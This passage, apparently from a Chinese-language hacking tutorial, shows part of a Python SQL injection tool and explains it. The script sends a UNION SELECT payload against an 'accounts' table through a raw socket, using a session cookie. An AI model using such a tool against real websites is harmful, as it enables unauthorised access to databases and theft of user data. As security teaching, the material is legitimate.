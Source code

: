 ```
    parser.add_argument('--host', help='IP-address of server')

    parser.add_argument('-u', help='URL')

    parser.add_argument('--param', help='Query String Parameter')

    parser.add_argument('--cookie', help='Session Cookie')

    args = parser.parse_args()

    HOST = args.host

    URL = args.u

    PARAMETER = args.param

    COOKIE = args.cookie

    SQL_injection = '\'UNION SELECT * FROM accounts where \'1\'=\'1'

    PORT = 80

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as tcp_socket:

        tcp_socket.connect((HOST, PORT))

        request = get_request(HOST, URL, PARAMETER, SQL_injection, COOKIE)

        print(request)

     ➌ tcp_socket.sendall(request.encode())

        while True:

            data = tcp_socket.recv(1024)

            print(data)

            if not data:

                break

main()
```

我们定义了一个名为`get_request()`的函数，它返回包含我们作为参数传入的信息的 HTTP 请求。我们将查询参数的值替换为 SQL 注入查询➊。我们必须对查询进行编码，因为我们将其直接注入到 URL 中，而 URL 不能包含空格或某些特殊字符。`urllib`库会在将 SQL 注入查询添加到 URL 之前进行 URL 编码。这一编码过程会将所有空格转换为字符序列`%20`。

当我们提供了所有变量后，函数将返回 HTTP 请求，我们将通过 TCP 套接字发送该请求➌。虽然不是必须的，但可以考虑使用`argparse`库➋来解析命令行参数。这将为你的命令行工具增添专业感。`argparse`库允许你添加自定义标志和帮助菜单。

运行以下命令来测试你新的 SQL 注入工具：
